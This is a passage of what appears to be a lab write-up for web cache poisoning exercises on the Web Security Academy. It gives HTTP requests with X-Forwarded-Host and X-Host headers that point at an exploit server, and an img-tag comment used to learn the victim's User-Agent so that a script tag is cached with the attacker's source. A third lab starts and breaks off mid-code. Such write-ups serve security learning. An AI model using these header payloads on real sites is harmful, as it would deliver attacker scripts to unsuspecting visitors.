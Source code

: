     GET /resources/js/tracking.js HTTP/2
    Host: 0a6a007f04f8d5ea819d34fa00070065.web-security-academy.net
    X-Forwarded-Scheme: http
    X-Forwarded-Host: exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit#

Now the cache server stores the `302` response with the `Location` header set to our exploit server. Whenever the victim visits `/` he will be redirected to our exploit server.

### LAB: Targeted web cache poisoning using an unknown header
Notice the `Vary: User-Agent` header, this helps us identify that the `User-Agent` header is a cache key.
First, to deliver the exploit to the victim, we need to identify the victim's `User-Agent`. Post a comment with this body:

    <img src="https://exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit">

Wait for the victim to see this comment, visit the Access log page of the exploit server and observe the victim's `User-Agent` is `Chrome/231561`.
Next, use `Param Miner` with `Guess Header` and found out the unknown header `X-Host`. It's value is then reflected in the:

    <script type="text/javascript" src="//0a2e00a10315cb43defcc59e0044008b.h1-web-security-academy.net/resources/js/tracking.js"></script>

To make it point to our server, send a request with this header:

    X-Host: exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit#

The response's script now successfully point to our exploit server:

    <script type="text/javascript" src="//exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit#/resources/js/tracking.js"></script>

Resend that request with the `User-Agent` set to the victim's until the response is cached:

    User-Agent: Chrome/231561

Now when the victim visits the home page, he is served with a script which `src` is our exploit server.

### LAB: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria
Crawl through the source code and found `/resources/js/geolocate.js`:

    function initGeoLocate(jsonUrl)
    {
        fetch(jsonUrl)
            .then(r => r.json())
            .then(j => {
                let geoLocateContent = document.getElementById('shipping-info');

                let img = document.createElement("img");
                img.setAttribute("src", "/resources/images/localShipping.svg");
                geoLocateContent.appendChild(img)

